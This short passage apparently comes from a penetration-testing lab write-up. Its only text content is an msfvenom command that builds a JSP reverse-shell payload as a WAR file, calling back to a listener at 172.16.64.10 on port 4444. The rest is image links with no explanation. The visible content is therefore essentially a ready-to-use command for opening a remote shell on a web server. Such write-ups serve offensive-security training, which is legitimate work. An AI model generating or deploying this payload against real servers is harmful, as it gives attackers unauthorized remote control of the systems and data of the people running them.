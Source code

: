 ```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.16.64.10 LPORT=4444 -f war -o revshell.war
```

![](<../../../.gitbook/assets/image (58) (1).png>)

![](<../../../.gitbook/assets/image (30) (1) (1).png>)

![](<../../../.gitbook/assets/image (13).png>)

![](<../../../.gitbook/assets/image (61) (1).png>)
